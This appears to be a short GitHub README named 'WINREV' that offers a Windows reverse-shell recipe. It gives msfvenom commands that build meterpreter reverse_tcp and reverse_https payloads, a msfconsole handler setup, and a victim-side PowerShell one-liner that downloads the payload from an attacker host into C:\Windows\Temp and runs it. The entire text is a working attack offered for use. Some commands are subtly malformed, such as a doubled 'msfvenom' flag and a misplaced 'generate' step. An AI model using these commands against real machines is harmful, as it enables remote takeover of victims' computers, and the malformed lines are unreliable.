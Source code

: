 # WINREV

Reverse Shell for Windows

Creator: Dhayalan

## On attacker

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > <FILENAME>`

`msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ATTACKER_IP>; set LPORT <ATTACKER_PORT>; exploit'`


## On victim

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<ATTACKER_IP>/<FILENAME>', 'C:\Windows\Temp\<FILENAME>'); Start-Process 'C:\Windows\Temp\<FILENAME>'"`

## For https

### MsfVenom
```bash
msfvenom -msfvenom -p windows/meterpreter/reverse_https LHOST=<tu dirección IP> LPORT=<puerto> -f exe -o payload.exe
```

### MsfConsole
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST <tu dirección IP>
set LPORT <puerto>
set EnableStageEncoding true
set EnableUnicodeEncoding true
generate -t <ruta del certificado PEM>
```
